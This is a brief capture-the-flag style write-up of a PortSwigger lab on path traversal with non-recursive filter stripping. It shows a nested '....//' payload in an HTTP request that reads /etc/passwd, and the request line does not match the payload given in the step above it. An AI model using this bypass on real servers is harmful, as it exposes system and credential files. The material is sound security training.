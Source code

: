 # File path traversal, traversal sequences stripped non-recursively

## Information
---

- [PortSwigger - Lab: File path traversal, traversal sequences stripped non-recursively](https://portswigger.net/web-security/file-path-traversal/lab-sequences-stripped-non-recursively)

This lab contains a file path traversal vulnerability in the display of product images.

The application strips path traversal sequences from the user-supplied filename before using it.

To solve the lab, retrieve the contents of the /etc/passwd file. 

## Solution
---

- 過濾機制: 此網頁會將參數中 **../** 字串過濾掉。

1. 將 **filename** 更改為 **....//....//....//....//etc/passwd**，繞過過濾機制。
    ```
    GET /image?filename=....//...//...//...//...//etc/passwd HTTP/1.1
    ...
    ```